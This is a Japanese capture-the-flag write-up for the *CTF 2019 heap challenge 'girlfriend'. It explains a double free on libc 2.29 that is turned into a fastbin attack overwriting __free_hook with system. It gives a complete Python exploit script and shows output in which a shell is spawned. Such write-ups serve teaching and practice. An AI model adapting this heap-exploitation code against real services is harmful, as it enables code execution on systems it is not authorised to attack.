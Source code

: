 # [pwn 238pts] girlfriend - *CTF 2019
64ビットバイナリで全部有効です。
```
$ checksec -f chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes	0		2	chall
```
アドレス帳のようなサービスで、ヒープ系問題です。
callするとアドレス帳の名前がfreeされるのですが、もとの構造体は消えてないので何度もcallでき、結果としてdouble freeが発生します。
libcのバージョンは2.29と新しく、tcacheは有効ですがdouble free検知機構が入っています。
2.29のdouble free検知はfastbinよりも厳しいのでどうにもならないのですが、tcacheは7個までなので全部使えばfastbinが代わりに使われます。
したがって、fastbin attackができ、`__free_hook`を`system`に書き換えればOKです。
（libc-2.29は`__malloc_hook`だけでなく`__free_hook`の前にも0x7fがあるので、そっちでfastbin attackができる。）

```python
from ptrlib import *

def add_info(size, name, call):
    sock.recvuntil("your choice:")
    sock.sendline("1")
    sock.recvline()
    sock.sendline(str(size))
    sock.recvline()
    sock.send(name)
    sock.recvline()
    sock.send(call)

def show_info(index):
    sock.recvuntil("your choice:")
    sock.sendline("2")
    sock.recvuntil("index:\n")
    sock.sendline(str(index))
    sock.recvuntil("name:\n")
    name = sock.recvline().rstrip()
    sock.recvuntil("phone:\n")
    phone = sock.recvline().rstrip()
    return name, phone

def call_girl(index):
    sock.recvuntil("your choice:")
    sock.sendline("4")
    sock.recvuntil("index:\n")
    sock.sendline(str(index))

libc = ELF("./lib/libc.so.6")
sock = Socket("localhost", 10001)
#sock = Socket("34.92.96.238", 10001)
main_arena = 0x3b1c40
delta = 96

# leak libc base
add_info(0x1000, b"A", b"a") # 0
add_info(0x1000, b"A", b"a") # 1
call_girl(0)
call_girl(1)
name, call = show_info(0)
addr_unsorted_bin = u64(name)
libc_base = addr_unsorted_bin - main_arena - delta
dump("libc base = " + hex(libc_base))

# Fill TCache
dump("Filling TCache")
for i in range(9): # 2 - 10
    add_info(0x68, b"A", b"a")
for i in range(7):
    call_girl(2 + i)

# Fastbin corruption attack
dump("Fastbin Corruption Attack")
call_girl(9)
call_girl(10)
call_girl(9)
for i in range(7):
    add_info(0x68, b"A", b"a") # 11 - 17

payload = p64(libc_base + libc.symbol("__free_hook") - 3)
add_info(0x68, payload, b"a") # 18
add_info(0x68, "B", b"a") # 19
add_info(0x68, "A", b"a") # 20
payload = b'\x00' * 3
payload += p64(libc_base + libc.symbol("system"))
add_info(0x68, payload, b"a") # 21

# Get the shell!
add_info(0x18, "/bin/sh\x00", b"a") # 22
call_girl(22)

sock.interactive()
```

```
$ python solve.py 
[+] Socket: Successfully connected to localhost:10001
[ptrlib] libc base = 0x7f5e2eb93000
[ptrlib] Filling TCache
[ptrlib] Fastbin Corruption Attack
[ptrlib]$ whoami
ptr
```

# 感想
libc-2.29の問題は初めてで、面白かったです。
